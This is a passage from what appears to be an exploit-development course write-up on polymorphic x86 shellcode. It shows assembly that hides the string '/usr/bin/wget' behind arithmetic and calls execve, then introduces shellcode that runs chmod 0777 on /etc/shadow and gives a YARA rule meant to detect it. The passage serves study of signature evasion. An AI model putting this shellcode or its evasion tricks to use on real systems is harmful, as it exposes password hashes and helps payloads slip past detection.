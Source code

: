         sub esp, 12

        mov ecx,esp
        push edx
    
        mov byte [esp-1], 0x74
        mov esi, 0x5456661e
        add esi, 0x11111111
        mov dword [esp-5], esi ;egw/
        mov dword [esp-9], 0x6e69622f ;nib/
        mov dword [esp-13], 0x7273752f ;rsu/
        sub esp, 13
        mov ebx,esp
        push edx
        push ecx
        push ebx
        mov ecx,esp
        int 0x80


###  <span style="color:#2d8fb3;">  Part 2 - chmod 0777 /etc/shadow </span>

***link to the original shellcode: http://shell-storm.org/shellcode/files/shellcode-875.php***

The aim of this second shellcode is to modify the access rights on the /etc/shadow file. To do so, only the chmod syscall (EAX = 0xf) is performed.

<img src="/assets/slae32-img/assignment6/assignment6.10.PNG" alt="drawing" style="width:900px;"/> 

We supposed that the yara rule as follows flagged our original shellcode.

    rule chmodshadow {
	    meta:
		    description = "Personal rule"
	    strings:
		    $y1 = {2f 2f 73 68}
		    $y2 = {2f 65 74 63}
		    $y3 = {3e 1f 3a 56}
	    condition:
	    $y1 and $y2 and $y3
    }
